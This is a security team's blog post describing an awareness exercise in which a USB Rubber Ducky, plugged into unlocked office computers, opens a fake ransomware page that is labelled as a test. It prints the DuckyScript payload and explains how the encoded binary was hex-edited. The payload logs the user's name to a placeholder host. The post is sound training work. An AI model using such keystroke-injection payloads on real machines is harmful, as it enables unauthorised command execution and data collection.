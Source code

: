```yaml
---
layout: post
title: "Unattended, unlocked, unprotected terminals - User security training with USB Rubber Ducky"
date: 2018-08-21
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
slug: 'unattended-unlocked-unprotected-terminals-user-security-training' 
---
```


As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!--more-->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](https://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.

![Ransomware Screen](ransomware.png)

Use the Feedback tab to make any comments or ask questions.
